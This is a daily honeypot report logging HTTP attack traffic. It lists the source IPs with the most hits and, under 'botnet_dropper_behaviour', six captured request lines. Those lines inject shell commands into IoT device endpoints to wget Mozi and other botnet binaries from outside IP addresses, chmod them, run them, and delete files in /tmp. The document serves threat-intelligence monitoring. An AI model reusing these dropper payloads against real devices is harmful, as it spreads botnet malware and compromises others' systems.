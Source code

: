 ```yaml
---
title: "Report: 2025-02-12 "
date: 2025-02-12
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-12
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                                                                                                                                                     |
|---:|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 46.19.143.26   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F193.31.6.52%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                    |
|  1 | 117.209.14.190 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                       |
|  2 | 58.56.165.41   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                |
|  3 | 45.164.177.3   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                       |
|  4 | 141.98.11.35   | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+arm7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |
|  5 | 118.251.20.226 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://118.251.20.226:60186/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                              |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   189 | 139.162.7.59    |
|   1 |                   100 | 193.41.206.24   |
|   2 |                    86 | 45.148.10.90    |
|   3 |                    58 | 92.255.57.58    |
|   4 |                    45 | 94.159.104.104  |
|   5 |                    36 | 46.19.143.26    |
|   6 |                    35 | 185.196.220.253 |
|   7 |                    24 | 68.183.123.55   |
|   8 |                    24 | 80.82.77.202    |
|   9 |                    21 | 95.214.55.132   |
|  10 |                    18 | 35.216.165.153  |
|  11 |                    17 | 46.101.122.243  |
|  12 |                    17 | 104.248.39.208  |
|  13 |                    16 | 176.65.137.206  |
|  14 |                    16 | 93.174.93.12    |
|  15 |                    14 | 60.191.125.35   |
